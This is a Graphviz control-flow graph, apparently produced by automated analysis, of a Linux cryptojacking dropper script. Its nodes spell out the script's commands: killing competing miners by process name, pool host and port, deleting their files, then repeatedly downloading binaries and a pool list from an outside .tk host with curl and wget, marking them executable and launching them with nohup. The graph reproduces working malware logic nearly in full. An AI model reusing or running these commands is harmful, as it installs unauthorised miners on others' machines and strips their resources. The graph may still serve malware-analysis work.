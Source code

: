 digraph {
0 [label="SHELL=/bin/sh "];
0 -> 0
2 [label="PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin "];
2 -> 252 [label="N,"];
252 [label="pkill -f sourplum "];
252 -> 6 [label="N,N,function,(,),SC,{,"];
6 [label="pkill wnTKYg "];
6 -> 8 [label="\n,"];
8 [label="pkill ddg* "];
8 -> 10 [label="&&,"];
10 [label="rm -rf /tmp/ddg* "];
10 -> 12 [label="&&,"];
12 [label="rm -rf /tmp/wnTKYg "];
12 -> 14 [label="&&,"];
14 [label="rm -rf /boot/grub/deamon "];
14 -> 16 [label="\n,"];
16 [label="rm -rf /boot/grub/disk_genius "];
16 -> 18 [label="&&,"];
18 [label="rm -rf /tmp/*index_bak* "];
18 -> 20 [label="\n,"];
20 [label="rm -rf /tmp/*httpd.conf* "];
20 -> 22 [label="\n,"];
22 [label="rm -rf /tmp/*httpd.conf "];
22 -> 24 [label="\n,"];
24 [label="rm -rf /tmp/a7b104c270 "];
24 -> 26 [label="\n,"];
26 [label="pkill -f AnXqV.yam "];
26 -> 128 [label="\n,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 32 [label="N,"];
32 [label="grep mine.moneropool.com "];
32 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 42 [label="N,"];
42 [label="grep xmr.crypto-pool.fr:8080 "];
42 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 52 [label="N,"];
52 [label="grep xmr.crypto-pool.fr:3333 "];
52 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 62 [label="N,"];
62 [label="grep zhuabcn@yahoo.com "];
62 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 72 [label="N,"];
72 [label="grep monerohash.com "];
72 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 82 [label="N,"];
82 [label="grep /tmp/a7b104c270 "];
82 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 92 [label="N,"];
92 [label="grep xmr.crypto-pool.fr:6666 "];
92 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 102 [label="N,"];
102 [label="grep xmr.crypto-pool.fr:7777 "];
102 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 112 [label="N,"];
112 [label="grep xmr.crypto-pool.fr:443 "];
112 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 122 [label="N,"];
122 [label="grep stratum.f2pool.com:8888 "];
122 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 128 [label="N,"];
128 [label="ps auxf "];
128 -> 447 [label="\n,N,"];
447 [label="grep -v grep "];
447 -> 132 [label="N,"];
132 [label="grep xmrpool.eu "];
132 -> 134 [label="N,"];
134 [label="awk {print $2} "];
134 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 154 [label="N,"];
154 [label="ps ax "];
154 -> 140 [label="\n,N,"];
140 [label="grep var "];
140 -> 142 [label="N,"];
142 [label="grep lib "];
142 -> 144 [label="N,"];
144 [label="grep jenkins "];
144 -> 146 [label="N,"];
146 [label="grep -v httpPort "];
146 -> 148 [label="N,"];
148 [label="grep -v headless "];
148 -> 150 [label="N,"];
150 [label="grep -c "];
150 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 154 [label="N,"];
154 [label="ps ax "];
154 -> 156 [label="\n,N,"];
156 [label="grep -o ./[0-9]* -c "];
156 -> 158 [label="N,"];
158 [label="xargs pkill -f "];
158 -> 160 [label="N,"];
160 [label="pkill -f biosetjenkins "];
160 -> 162 [label="\n,"];
162 [label="pkill -f Loopback "];
162 -> 164 [label="\n,"];
164 [label="pkill -f apaceha "];
164 -> 166 [label="\n,"];
166 [label="pkill -f cryptonight "];
166 -> 168 [label="\n,"];
168 [label="pkill -f stratum "];
168 -> 170 [label="\n,"];
170 [label="pkill -f mixnerdx "];
170 -> 172 [label="\n,"];
172 [label="pkill -f performedl "];
172 -> 174 [label="\n,"];
174 [label="pkill -f JnKihGjn "];
174 -> 176 [label="\n,"];
176 [label="pkill -f irqba2anc1 "];
176 -> 178 [label="\n,"];
178 [label="pkill -f irqba5xnc1 "];
178 -> 180 [label="\n,"];
180 [label="pkill -f irqbnc1 "];
180 -> 182 [label="\n,"];
182 [label="pkill -f ir29xc1 "];
182 -> 184 [label="\n,"];
184 [label="pkill -f conns "];
184 -> 186 [label="\n,"];
186 [label="pkill -f irqbalance "];
186 -> 188 [label="\n,"];
188 [label="pkill -f crypto-pool "];
188 -> 190 [label="\n,"];
190 [label="pkill -f minexmr "];
190 -> 192 [label="\n,"];
192 [label="pkill -f XJnRj "];
192 -> 194 [label="\n,"];
194 [label="pkill -f NXLAi "];
194 -> 196 [label="\n,"];
196 [label="pkill -f BI5zj "];
196 -> 198 [label="\n,"];
198 [label="pkill -f askdljlqw "];
198 -> 236 [label="\n,"];
236 [label="pkill -f minerd "];
236 -> 202 [label="\n,"];
202 [label="pkill -f minergate "];
202 -> 204 [label="\n,"];
204 [label="pkill -f Guard.sh "];
204 -> 206 [label="\n,"];
206 [label="pkill -f ysaydh "];
206 -> 208 [label="\n,"];
208 [label="pkill -f bonns "];
208 -> 210 [label="\n,"];
210 [label="pkill -f donns "];
210 -> 212 [label="\n,"];
212 [label="pkill -f kxjd "];
212 -> 214 [label="\n,"];
214 [label="pkill -f Duck.sh "];
214 -> 216 [label="\n,"];
216 [label="pkill -f bonn.sh "];
216 -> 218 [label="\n,"];
218 [label="pkill -f conn.sh "];
218 -> 220 [label="\n,"];
220 [label="pkill -f kworker34 "];
220 -> 222 [label="\n,"];
222 [label="pkill -f kw.sh "];
222 -> 224 [label="\n,"];
224 [label="pkill -f pro.sh "];
224 -> 226 [label="\n,"];
226 [label="pkill -f polkitd "];
226 -> 228 [label="\n,"];
228 [label="pkill -f acpid "];
228 -> 230 [label="\n,"];
230 [label="pkill -f icb5o "];
230 -> 232 [label="\n,"];
232 [label="pkill -f nopxi "];
232 -> 234 [label="\n,"];
234 [label="pkill -f irqbalanc1 "];
234 -> 236 [label="\n,"];
236 [label="pkill -f minerd "];
236 -> 238 [label="\n,"];
238 [label="pkill -f i586 "];
238 -> 240 [label="\n,"];
240 [label="pkill -f gddr "];
240 -> 242 [label="\n,"];
242 [label="pkill -f mstxmr "];
242 -> 244 [label="\n,"];
244 [label="pkill -f ddg.2011 "];
244 -> 246 [label="\n,"];
246 [label="pkill -f wnTKYg "];
246 -> 248 [label="\n,"];
248 [label="pkill -f deamon "];
248 -> 250 [label="\n,"];
250 [label="pkill -f disk_genius "];
250 -> 252 [label="\n,"];
252 [label="pkill -f sourplum "];
252 -> 254 [label="\n,"];
254 [label="rm -rf /tmp/httpd.conf "];
254 -> 256 [label="\n,"];
256 [label="rm -rf /tmp/conn "];
256 -> 258 [label="\n,"];
258 [label="rm -rf /tmp/conns "];
258 -> 260 [label="\n,"];
260 [label="rm -f /tmp/irq.sh "];
260 -> 262 [label="\n,"];
262 [label="rm -f /tmp/irqbalanc1 "];
262 -> 264 [label="\n,"];
264 [label="rm -f /tmp/irq "];
264 -> 266 [label="\n,"];
266 [label="PORT_NUMBER=3333 "];
266 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 274 [label="N,"];
274 [label="PORT_NUMBER=5555 "];
274 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 282 [label="N,"];
282 [label="PORT_NUMBER=7777 "];
282 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 290 [label="N,"];
290 [label="PORT_NUMBER=14444 "];
290 -> 292 [label="\n,"];
292 [label="lsof -i tcp:${PORT_NUMBER} "];
292 -> 294 [label="N,\n,N,"];
294 [label="awk NR!=1 {print $2} "];
294 -> 296 [label="N,"];
296 [label="xargs kill -9 "];
296 -> 304 [label="N,"];
304 [label="[ ! -f /tmp/config.json ] "];
304 -> 300 [label="\n,},N,function,(,),SC,{,SC,N,if,"];
300 [label="curl http://e3sas6tzvehwgpak.tk/config.json -o /tmp/config.json "];
300 -> 308 [label=";,then,"];
308 [label="chmod +x /tmp/config.json "];
308 -> 304 [label="&&,"];
304 [label="[ ! -f /tmp/config.json ] "];
304 -> 306 [label="\n,SC,N,if,"];
306 [label="wget http://e3sas6tzvehwgpak.tk/config.json -P /tmp "];
306 -> 308 [label=";,then,"];
308 [label="chmod +x /tmp/config.json "];
308 -> 310 [label="&&,"];
310 [label="rm -rf config.json.* "];
310 -> 318 [label="\n,"];
318 [label="[ ! -f /tmp/bashd ] "];
318 -> 314 [label="\n,fi,\n,fi,\n,SC,N,if,"];
314 [label="curl http://e3sas6tzvehwgpak.tk/bashd -o /tmp/bashd "];
314 -> 322 [label=";,then,"];
322 [label="chmod +x /tmp/bashd "];
322 -> 318 [label="&&,"];
318 [label="[ ! -f /tmp/bashd ] "];
318 -> 320 [label="\n,SC,N,if,"];
320 [label="wget http://e3sas6tzvehwgpak.tk/bashd -P /tmp "];
320 -> 322 [label=";,then,"];
322 [label="chmod +x /tmp/bashd "];
322 -> 324 [label="&&,"];
324 [label="rm -rf bashd.* "];
324 -> 345 [label="\n,"];
345 [label="nohup /tmp/bashd -p bashd /dev/null "];
345 -> 459 [label="\n,fi,\n,"];
459 [label="/dev/null "];
459 -> 459
352 [label="p=$(ps aux | grep bashd | grep -v grep | wc -l) "];
352 -> 443 [label="&,else,"];
443 [label="ps aux "];
443 -> 356 [label="N,N,N,"];
356 [label="grep bashd "];
356 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 364 [label="\n,SC,N,if,"];
364 [label="echo bashd "];
364 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 345 [label="elif,"];
345 [label="nohup /tmp/bashd -p bashd /dev/null "];
345 -> 459 [label=";,then,"];
459 [label="/dev/null "];
459 -> 459
460 [label="echo  "];
460 -> 422 [label="&,else,"];
422 [label="sleep 15 "];
422 -> 352 [label="fi,\n,fi,\n,"];
352 [label="p=$(ps aux | grep bashd | grep -v grep | wc -l) "];
352 -> 443 [label="\n,"];
443 [label="ps aux "];
443 -> 356 [label="N,N,N,"];
356 [label="grep bashd "];
356 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 364 [label="\n,SC,N,if,"];
364 [label="echo bashd "];
364 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 374 [label="elif,"];
374 [label="[ ! -f /tmp/pools.txt ] "];
374 -> 370 [label=";,then,SC,N,if,"];
370 [label="curl http://e3sas6tzvehwgpak.tk/pools.txt -o /tmp/pools.txt "];
370 -> 378 [label=";,then,"];
378 [label="chmod +x /tmp/pools.txt "];
378 -> 374 [label="&&,"];
374 [label="[ ! -f /tmp/pools.txt ] "];
374 -> 376 [label="\n,SC,N,if,"];
376 [label="wget http://e3sas6tzvehwgpak.tk/pools.txt -P /tmp "];
376 -> 378 [label=";,then,"];
378 [label="chmod +x /tmp/pools.txt "];
378 -> 380 [label="&&,"];
380 [label="rm -rf pools.txt.* "];
380 -> 388 [label="\n,"];
388 [label="[ ! -f /tmp/bashe ] "];
388 -> 384 [label="\n,fi,\n,fi,\n,SC,N,if,"];
384 [label="curl http://e3sas6tzvehwgpak.tk/bashe -o /tmp/bashe "];
384 -> 392 [label=";,then,"];
392 [label="chmod +x /tmp/bashe "];
392 -> 388 [label="&&,"];
388 [label="[ ! -f /tmp/bashe ] "];
388 -> 390 [label="\n,SC,N,if,"];
390 [label="wget http://e3sas6tzvehwgpak.tk/bashe -P /tmp "];
390 -> 392 [label=";,then,"];
392 [label="chmod +x /tmp/bashe "];
392 -> 394 [label="&&,"];
394 [label="rm -rf bashe.* "];
394 -> 415 [label="\n,"];
415 [label="nohup /tmp/bashe -C /tmp/pools.txt /dev/null "];
415 -> 459 [label="\n,fi,\n,"];
459 [label="/dev/null "];
459 -> 459
399 [label="p=$(ps aux | grep bashe | grep -v grep | wc -l) "];
399 -> 443 [label="&,else,"];
443 [label="ps aux "];
443 -> 403 [label="N,N,N,"];
403 [label="grep bashe "];
403 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 411 [label="\n,SC,N,if,"];
411 [label="echo bashe "];
411 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 415 [label="elif,"];
415 [label="nohup /tmp/bashe -C /tmp/pools.txt /dev/null "];
415 -> 459 [label=";,then,"];
459 [label="/dev/null "];
459 -> 459
460 [label="echo  "];
460 -> 460 [label="&,else,"];
460 [label="echo  "];
460 -> 422 [label="fi,\n,fi,\n,else,"];
422 [label="sleep 15 "];
422 -> 430 [label="fi,\n,"];
430 [label="[ ! -f /tmp/Xagent5 ] "];
430 -> 426 [label="\n,SC,N,if,"];
426 [label="curl http://e3sas6tzvehwgpak.tk/Xagent5 -o /tmp/Xagent5 "];
426 -> 434 [label=";,then,"];
434 [label="chmod +x /tmp/Xagent5 "];
434 -> 430 [label="&&,"];
430 [label="[ ! -f /tmp/Xagent5 ] "];
430 -> 432 [label="\n,SC,N,if,"];
432 [label="wget http://e3sas6tzvehwgpak.tk/Xagent5 -P /tmp "];
432 -> 434 [label=";,then,"];
434 [label="chmod +x /tmp/Xagent5 "];
434 -> 436 [label="&&,"];
436 [label="rm -rf Xagent5.* "];
436 -> 457 [label="\n,"];
457 [label="nohup /tmp/Xagent5 /dev/null "];
457 -> 459 [label="\n,fi,\n,"];
459 [label="/dev/null "];
459 -> 459
441 [label="p=$(ps aux | grep Xagent5 | grep -v grep | wc -l) "];
441 -> 443 [label="&,else,"];
443 [label="ps aux "];
443 -> 445 [label="N,N,N,"];
445 [label="grep Xagent5 "];
445 -> 447 [label="N,"];
447 [label="grep -v grep "];
447 -> 449 [label="N,"];
449 [label="wc -l "];
449 -> 451 [label="N,"];
451 [label="[ ${p} -eq 1 ] "];
451 -> 453 [label="\n,SC,N,if,"];
453 [label="echo Xagent5 "];
453 -> 455 [label=";,then,"];
455 [label="[ ${p} -eq 0 ] "];
455 -> 457 [label="elif,"];
457 [label="nohup /tmp/Xagent5 /dev/null "];
457 -> 459 [label=";,then,"];
459 [label="/dev/null "];
459 -> 459
460 [label="echo  "];
460 -> 462 [label="&,else,"];
462 [label="cd /tmp/ "];
462 -> 464 [label="fi,\n,fi,\n,},"];
464 [label="[ 1 ] "];
464 -> 466 [label="SC,N,while,"];
466 [label="kills "];
466 -> 468 [label="do,"];
468 [label="downloadyam "];
468 -> 469 [label="\n,"];
}
